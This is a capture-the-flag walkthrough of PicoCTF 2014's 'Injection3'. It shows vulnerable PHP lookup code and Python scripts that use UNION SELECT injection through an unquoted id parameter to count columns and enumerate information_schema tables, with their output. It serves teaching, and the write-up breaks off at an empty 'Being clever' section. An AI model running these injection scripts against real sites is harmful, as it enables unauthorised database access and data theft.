 ### Injection3

This challenge is from PicoCTF 2014. Similar to the previous injection challenge, we are given a vulnerable web application with a login page. The following is the PHP source code of the login page.
```
include "config.php";
$con = mysqli_connect("localhost", "sql3", "sql3", "sql3");
$username = mysqli_real_escape_string($con, $_POST["username"]);
$password = mysqli_real_escape_string($con, $_POST["password"]);
$query = "SELECT * FROM ${table_prefix}users WHERE username='$username' AND password='$password'";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  echo "<h1>Logged in!</h1>";
  if ($row["username"] === "admin") {
    echo "<p>Your flag is: $FLAG</p>";
  } else {
    echo "<p>Only admin can see the flag.</p>";
  }
} else {
  echo "<h1>Login failed.</h1>";
}
?>
```
It seems well protected. However, on this login page, there is a link to another page called ```lookup_user.php```. Let's look at its source code.
```
 <?php
include "config.php";
$con = mysqli_connect("localhost", "sql3", "sql3", "sql3");
// ID is escaped, so this must be safe, right?
$id = mysqli_real_escape_string($con, $_GET["id"]);

if (intval($_GET["debug"])) {
  echo "<pre>";
  echo "id: ", htmlspecialchars($id);
  echo "</pre>";
}

$query = "SELECT * FROM ${table_prefix}users WHERE id=$id";
$result = mysqli_query($con, $query);

if (mysqli_num_rows($result) !== 1) {
  die("<p>Could not find user.</p>");
}

$row = mysqli_fetch_array($result);
echo "<pre>";
echo "User info for ", htmlspecialchars($row["username"]), "\n";
echo "Display name: ", htmlspecialchars($row["display_name"]), "\n";
echo "Location: ", htmlspecialchars($row["location"]), "\n";
echo "E-mail: ", htmlspecialchars($row["email"]), "\n";
echo "</pre>";
echo '<a href="lookup_user.phps">View source</a>';
?>
```
Although it does seem as well protected as the previous one, there is one key difference that makes this code vulnerable to injection: ```$id``` is not enclosed in quotation ```'```. 

The simple fact is, ```mysqli_real_escape_string``` function escapes special strings, but does not necessarily prevent injection like the one we are going to perform, ```UNION SELECT```. 

Our first goal of this challenge is to find out the table name. Right now, with ```{table_prefix}``` in place, it is impossible to obtain the admin password because we don't know to which table we issue the query! This is where ```information_schema.tables``` comes in.

In MySQL, ```information_schema.tables``` table contains all the metadata related to table objects. In this case, we focus on the field ```table_name```. 

Before that though, in order to succeed in ```UNION SELECT```, we have to do two things

1. match the # of columns of the tables
2. match the data types of the columns

Assuming that all the entries in the ```{table_prefix}user``` are of type ```VARCHAR```, We can write a little Python code to do find the # of columns
```
import requests

url = "http://web2014.picoctf.com/injection3/lookup_user.php?id=0"

query = " AND 1=0 UNION SELECT table_name"
last  = " FROM information_schema.tables LIMIT 1" 
add = ",table_name"

for count in range(1,20):
    print "# of columns " + str(count)
    resp = requests.get((url + query + last).replace(" ", "%20"))
    query = query + add
    #if "users" in resp.text:
    print(resp.text + "\n")
```
A rather lousy code, but it does the job. The output is as follows
```
# of columns 1
<p>Could not find user.</p>

# of columns 2
<p>Could not find user.</p>

# of columns 3
<p>Could not find user.</p>

# of columns 4
<p>Could not find user.</p>

# of columns 5
<p>Could not find user.</p>

# of columns 6
<p>Could not find user.</p>

# of columns 7
<pre>User info for CHARACTER_SETS
Display name: CHARACTER_SETS
Location: CHARACTER_SETS
E-mail: CHARACTER_SETS
</pre><a href="lookup_user.phps">View source</a>

# of columns 8
<p>Could not find user.</p>
```
So it can be concluded that the number of columns is 7! Now we can get ready to find the table name! There are two ways to do this.
1. Brute force

In SQL, there is a useful argument called ```OFFSET``` which allows you to look at the table rows starting at a particular entry point. 
Athough we have to ```LIMIT``` our query to 1, by using OFFSET we can brute force through all the rows of ```information_schema.tables```! A code would be something like this
```
import requests

url = "http://web2014.picoctf.com/injection3/lookup_user.php?id=0"

query = " AND 1=0 UNION SELECT table_name,table_name,table_name,table_name,table_name,table_name,table_name FROM information_schema.tables LIMIT 1 OFFSET %d" 
offset = 0
while True:
    resp = requests.get((url + (query % offset)).replace(" ", "%20"))
    offset += 1
    if(resp.text == "<p>Could not find user.</p>"):
        break
    print(resp.text)
```
NOTE:
```SELECT column1, ... FROM table1 LIMIT intA OFFSET intB;```
```SELECT column1, ... FROM table1 LIMIT intB, intA;```
have the same meaning.

When we run it, 
```
<pre>User info for CHARACTER_SETS
Display name: CHARACTER_SETS
Location: CHARACTER_SETS
E-mail: CHARACTER_SETS
</pre><a href="lookup_user.phps">View source</a>
<pre>User info for COLLATIONS
Display name: COLLATIONS
Location: COLLATIONS
E-mail: COLLATIONS
</pre><a href="lookup_user.phps">View source</a>
<pre>User info for COLLATION_CHARACTER_SET_APPLICABILITY
Display name: COLLATION_CHARACTER_SET_APPLICABILITY
Location: COLLATION_CHARACTER_SET_APPLICABILITY
E-mail: COLLATION_CHARACTER_SET_APPLICABILITY
</pre><a href="lookup_user.phps">View source</a>
<pre>User info for COLUMNS
Display name: COLUMNS
Location: COLUMNS
E-mail: COLUMNS
</pre><a href="lookup_user.phps">View source</a>
<pre>User info for COLUMN_PRIVILEGES
Display name: COLUMN_PRIVILEGES
Location: COLUMN_PRIVILEGES
E-mail: COLUMN_PRIVILEGES
</pre><a href="lookup_user.phps">View source</a>
...
<pre>User info for super_secret_users
Display name: super_secret_users
Location: super_secret_users
E-mail: super_secret_users
</pre><a href="lookup_user.phps">View source</a>
```
Quite visibly, the table whose name we want to know is the only user-created table (since everything else is in lowercase), and is called ```super_secret_users```!

2. Being clever

```

```

```
```
```


